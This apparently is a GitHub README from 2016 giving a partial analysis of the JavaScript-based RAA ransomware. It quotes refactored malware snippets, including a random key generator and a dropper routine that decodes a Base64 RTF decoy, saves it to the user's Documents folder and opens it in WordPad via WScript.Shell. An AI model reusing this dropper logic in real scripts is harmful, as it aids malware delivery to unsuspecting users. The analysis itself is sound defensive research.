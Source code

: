 # RAA Ransomware JavaScript code analysis

On 14th of June 2016 I found an information about new ransomware called RAA Ransomware. Couple of websites mentioned about it as first ransomware created only by using JavaScript.

Following some links provided by Polish malware analyst **@hasherezade** (https://github.com/hasherezade, https://twitter.com/hasherezade) I've downloaded RAA JavaScript source code from malwr.com (https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/) to take a look its internals.

File **raa.js** contains original content of RAA downloaded from malwr.com, and other files contains source code with some refactoring which I've done during RAA analysis and test runs.


# Analysis

## Extracting parts of code into separate files

**raa.js** file contains 3rd party library, used for some encoding purposes. It's **CryptoJS** library (source code available here https://code.google.com/archive/p/crypto-js/ or GitHub fork here https://github.com/sytelus/CryptoJS).

To keep source code easier to analysis, I've decided to divide **raa.js** into couple of smaller parts. After quick investigation I was able to spot three main parts.

Folder **partials/** contains those parts of code (I keep order of how those fragments exists in original file). Please be aware that I've done a lot of renaming, mostly in **raa_other.js**. Original, obfuscated names you can find in **raa.js**.

- **Crypto.js** contains CryptoJS library
- **raa_other.js** contains other functions, including **zQqUzoSxLQ()**, which seems to be an entry point for the program
- **NWvQtGjjfQX.js** contains only body of function _NWvQtGjjfQX()_, which is quite huge :)


## How RAA JavaScript works

First executable line of script is this assingment:

```javascript
var TBucypWw = YUIMqkFkI();
```

I renamed all found variables and function into something what makes sense and allows to follow them in code in some easy way. This is how previous line and a function just before it looks like after renaming (I just guessed the role of each variable and function to choose particular name):

```javascript
function generateKey() {
    var returnedKey = "";
    var allowedChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for (var i = 0; i < 5; i++)
        returnedKey += allowedChars.charAt(Math.floor(Math.random() * allowedChars.length));
    return returnedKey;
}

// var TBucypWw = YUIMqkFkI();
var __key = generateKey();  // <-- returns xW5Gf
```

This fragment just generates a string which contains five characters. In this writeup, to understand its meaning, how and where it's used, I assigned *xW5Gf* from example above as generated value of **__key** variable.

Next executable fragment is:

```javascript
// starts from:
//
// var Yvwtdbvd = WScript.Arguments;
// (...)


var __arguments = WScript.Arguments;


if (__arguments.length == 0) {
    runShell();
    runRansomware();
} else {
    null;
}

```
And here's RAA starts its work. After script checks if there are any arguments passed (now let's assume that there aren't) **runShell()** is executed. Original name of this function is **nYuMHHRx()**, below is my refactored version.

```javascript

function runShell() {
    var b64EncodedString = "e1xydGYxXG..( very long Base64 encoded string )..zIwXHBhcg0KfQ0KBBSDIOBBSDIO==";
    b64EncodedString = b64EncodedString.replace(/BBSDIO/g, "A");
    var clear_b64EncodedString = CryptoJS.enc.Base64.parse(b64EncodedString);
    var clearedString = clear_b64EncodedString.toString(CryptoJS.enc.Utf8);
    clearedString = clearedString.replace(/BBSDIO/g, "A");
    var AdodbStreamObj = new ActiveXObject('ADODB.Stream');
    var WScriptShellObj = WScript.CreateObject("WScript.shell");
    var _saveFolder = WScriptShellObj.SpecialFolders("MyDocuments");
    _saveFolder = _saveFolder + "\\" + "doc_attached_" + __key;
    AdodbStreamObj.Type = 2;
    AdodbStreamObj.Charset = "437";
    AdodbStreamObj.Open();
    AdodbStreamObj.WriteText(clearedString);
    AdodbStreamObj.SaveToFile(_saveFolder);
    AdodbStreamObj.Close();
    var run = "wordpad.exe " + "\"" + _saveFolder + "\"";
    WScriptShellObj.Run(run);
    return 0;
}

```

Let's go through it step by step.

_b64EncodedString_ variable contains very long Base64 encoded string. After a couple of operations with Regular Expressions and CryptoJS methods calls - finally we get RTF document (see **extracted/extracted_rtf.rtf** file)

Next, a file is created with following path:

```
\MyDocuments\doc_atatched_xW5Gf
```

Content of previously generated RTF file is then saved at this path.

Finally, following command is prepared:

```
var run = wordpad.exe "\MyDocuments\doc_atatched_xW5Gf"
```

and executed by Windows Script Host using method Run():

```
WScriptShellObj.Run(run);
```
( reference: https://msdn.microsoft.com/en-us/library/d5fk67ky(v=vs.84).aspx )


-- TBD --



## Links, references

**News about RAA from BleepingComputer website**

http://www.bleepingcomputer.com/news/security/the-new-raa-ransomware-is-created-entirely-using-javascript/

**malwr.com**

https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/
